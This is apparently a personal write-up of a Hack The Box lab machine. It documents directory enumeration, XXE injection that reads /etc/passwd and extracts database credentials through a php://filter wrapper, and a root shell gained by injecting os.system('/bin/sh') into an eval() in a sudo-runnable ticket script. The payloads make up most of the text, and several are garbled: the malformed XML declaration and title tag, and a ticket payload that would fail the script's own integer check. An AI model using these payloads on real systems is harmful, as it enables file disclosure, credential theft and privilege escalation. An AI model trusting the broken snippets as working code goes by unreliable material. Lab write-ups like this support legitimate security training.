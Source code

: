 HTB - Bughunter (easy)
**bug**: xxe

**nmap**
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to
https://rhost/portal.php
check sources
click 
https://rhost/log_submit.php
open burp
capture request on submit
you can see POST request to /tracker_diRPrOOf314.php
check data to inspector
the data is base64 and url encoded 

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**
capture POST request 
https://rhost/tracker_diRPrOOf314.php
you can see XML format being rendered in frontend
the title (entity) including its values are reflected

**(encoding)** use Hackverter ext on burp suite
select Encode tab
select urlencode and base64


**sensitive file read XXE**
change the requested XML with this edited request

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal
echo "the td data type shit" | base64 -d
connect to the machine with SSH

----
**finding privesc path**

the user ``development`` has user privilege
run ``sudo -l`` to check it
now you can see a script that requrires ``NOPASSWD`` to run

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`
so we can craft even a `.txt` file to act like a ticket and feed it to the script

here's what i came up with
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is, it gives the script the minimum requirements it asks for tickets to be valid 
Line 1: `# Skytrain Inc` satisfies the first-line check.
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).
Line 3: `# Ticket Code`: indicates the next line is the ticket code.
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.

after that, it executes the `bin/sh` to spawn a root shell to the target machine
VOILA! BountyHunter PWNED!
